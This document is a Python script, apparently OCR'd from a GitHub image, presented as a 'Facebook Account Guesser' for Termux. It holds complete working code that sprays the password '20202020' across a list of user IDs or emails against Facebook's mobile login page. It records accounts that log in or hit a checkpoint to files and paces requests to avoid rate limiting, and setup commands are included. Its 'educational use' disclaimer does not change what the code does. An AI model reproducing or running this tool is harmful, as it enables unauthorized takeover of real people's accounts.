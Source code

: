 #!/usr/bin/env python3
# Termux Facebook Account Guesser (for educational/research use only)
# This script attempts to login to Facebook accounts using a list of user IDs/emails and the password '20202020'
# Usage: 
#   1. Save this as facebook_password_guesser.py
#   2. pkg install python
#   3. pip install requests
#   4. python facebook_password_guesser.py userlist.txt

import sys
import requests
import time

def try_login(user_id, password="20202020"):
    headers = {
        "User-Agent": "Mozilla/5.0 (Linux; Android 9; Mobile; rv:68.0) Gecko/68.0 Firefox/68.0",
        "Accept-Language": "en-US,en;q=0.9"
    }
    payload = {
        "email": user_id,
        "pass": password
    }
    session = requests.Session()
    login_url = "https://mbasic.facebook.com/login.php"
    resp = session.post(login_url, data=payload, headers=headers, allow_redirects=False)
    if "c_user" in session.cookies.get_dict():
        return True
    elif "checkpoint" in session.cookies.get_dict():
        return "checkpoint"
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print("Usage: python facebook_password_guesser.py userlist.txt")
        sys.exit(1)
    userlist_file = sys.argv[1]
    try:
        with open(userlist_file, "r") as f:
            users = [line.strip() for line in f if line.strip()]
    except Exception as e:
        print(f"Error reading userlist: {e}")
        sys.exit(1)

    print(f"[*] Starting Facebook guesser with {len(users)} users, password='20202020'")
    for user in users:
        print(f"[*] Trying {user}...", end="")
        try:
            result = try_login(user)
            if result == True:
                print(" [SUCCESS] âœ…")
                with open("success.txt", "a") as s:
                    s.write(f"{user}|20202020\n")
            elif result == "checkpoint":
                print(" [CHECKPOINT] âڑ ï¸ڈ")
                with open("checkpoint.txt", "a") as c:
                    c.write(f"{user}|20202020\n")
            else:
                print(" [FAILED]")
        except Exception as e:
            print(f" [ERROR] {e}")
        time.sleep(1)  # To avoid rate limiting

if __name__ == "__main__":
    main()
